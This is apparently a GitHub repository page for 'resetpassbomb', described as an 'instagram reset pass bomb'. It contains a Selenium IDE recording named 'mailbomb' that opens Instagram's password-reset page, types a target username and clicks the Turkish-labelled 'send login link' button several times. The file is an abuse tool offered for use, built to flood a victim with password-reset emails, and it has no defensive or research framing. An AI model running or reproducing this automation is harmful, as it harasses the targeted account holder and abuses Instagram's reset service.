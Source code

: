 # resetpassbomb
instagram reset pass bomb

{
  "id": "c2a6db1d-4d75-4c36-9f5a-f413d765992b",
  "version": "2.0",
  "name": "mailbomb",
  "url": "https://www.instagram.com",
  "tests": [{
    "id": "4cc8c5d0-252b-4562-8f63-584132ed5212",
    "name": "1",
    "commands": [{
      "id": "6706cf93-205e-4a13-8016-4240a7e7d94f",
      "comment": "",
      "command": "open",
      "target": "/accounts/password/reset/",
      "targets": [],
      "value": ""
    }, {
      "id": "55a5bfd9-236b-4eaf-9a6d-8b4f3c66aae8",
      "comment": "",
      "command": "setWindowSize",
      "target": "550x690",
      "targets": [],
      "value": ""
    }, {
      "id": "bfd05266-35f6-41c9-a561-3dd99c7e2270",
      "comment": "",
      "command": "type",
      "target": "name=cppEmailOrUsername",
      "targets": [
        ["id=fcadc4b7ab9486", "id"],
        ["name=cppEmailOrUsername", "name"],
        ["css=#fcadc4b7ab9486", "css:finder"],
        ["xpath=//input[@id='fcadc4b7ab9486']", "xpath:attributes"],
        ["xpath=//span[@id='react-root']/section/main/div[2]/div/div/div[4]/form/label/input", "xpath:idRelative"],
        ["xpath=//input", "xpath:position"]
      ],
      "value": "username"
    }, {
      "id": "8ea1a175-a423-4190-b97a-704bab92c06b",
      "comment": "",
      "command": "click",
      "target": "css=.L3NKy",
      "targets": [
        ["css=.L3NKy", "css:finder"],
        ["xpath=//button[@type='button']", "xpath:attributes"],
        ["xpath=//span[@id='react-root']/section/main/div[2]/div/div/div[5]/button", "xpath:idRelative"],
        ["xpath=//button", "xpath:position"],
        ["xpath=//button[contains(.,'Giriş Bağlantısı Gönder')]", "xpath:innerText"]
      ],
      "value": ""
    }, {
      "id": "d14101c3-4fd8-42c8-ab01-9ceab9f86b90",
      "comment": "",
      "command": "mouseOver",
      "target": "css=.L3NKy",
      "targets": [
        ["css=.L3NKy", "css:finder"],
        ["xpath=//button[@type='button']", "xpath:attributes"],
        ["xpath=//span[@id='react-root']/section/main/div[2]/div/div/div[5]/button", "xpath:idRelative"],
        ["xpath=//button", "xpath:position"],
        ["xpath=//button[contains(.,'Giriş Bağlantısı Gönder')]", "xpath:innerText"]
      ],
      "value": ""
    }, {
      "id": "339bab19-f919-4316-8a2f-6bbc52f72d5b",
      "comment": "",
      "command": "mouseOut",
      "target": "css=.L3NKy",
      "targets": [
        ["css=.L3NKy", "css:finder"],
        ["xpath=//button[@type='button']", "xpath:attributes"],
        ["xpath=//span[@id='react-root']/section/main/div[2]/div/div/div[5]/button", "xpath:idRelative"],
        ["xpath=//button", "xpath:position"],
        ["xpath=//button[contains(.,'Giriş Bağlantısı Gönder')]", "xpath:innerText"]
      ],
      "value": ""
    }, {
      "id": "19a7c6cb-ffdb-43b5-a06f-af2cd6ff469e",
      "comment": "",
      "command": "click",
      "target": "id=f104cb6d8e8289c",
      "targets": [
        ["id=f104cb6d8e8289c", "id"],
        ["name=cppEmailOrUsername", "name"],
        ["css=#f104cb6d8e8289c", "css:finder"],
        ["xpath=//input[@id='f104cb6d8e8289c']", "xpath:attributes"],
        ["xpath=//span[@id='react-root']/section/main/div[2]/div/div/div[4]/form/label/input", "xpath:idRelative"],
        ["xpath=//input", "xpath:position"]
      ],
      "value": ""
    }, {
      "id": "8e25e4fd-f9bb-4e2c-941e-ddd5546977ce",
      "comment": "",
      "command": "type",
      "target": "id=f104cb6d8e8289c",
      "targets": [
        ["id=f104cb6d8e8289c", "id"],
        ["name=cppEmailOrUsername", "name"],
        ["css=#f104cb6d8e8289c", "css:finder"],
        ["xpath=//input[@id='f104cb6d8e8289c']", "xpath:attributes"],
        ["xpath=//span[@id='react-root']/section/main/div[2]/div/div/div[4]/form/label/input", "xpath:idRelative"],
        ["xpath=//input", "xpath:position"]
      ],
      "value": ""
    }, {
      "id": "ea265960-24f2-4bc8-abb9-fc7ceea0ae76",
      "comment": "",
      "command": "click",
      "target": "css=.L3NKy",
      "targets": [
        ["css=.L3NKy", "css:finder"],
        ["xpath=//button[@type='button']", "xpath:attributes"],
        ["xpath=//span[@id='react-root']/section/main/div[2]/div/div/div[5]/button", "xpath:idRelative"],
        ["xpath=//button", "xpath:position"],
        ["xpath=//button[contains(.,'Giriş Bağlantısı Gönder')]", "xpath:innerText"]
      ],
      "value": ""
    }]
  }],
  "suites": [{
    "id": "eca1181d-d763-476f-84b3-b4ba2bfa0a70",
    "name": "Default Suite",
    "persistSession": false,
    "parallel": false,
    "timeout": 300,
    "tests": []
  }],
  "urls": ["https://www.instagram.com/"],
  "plugins": []
}
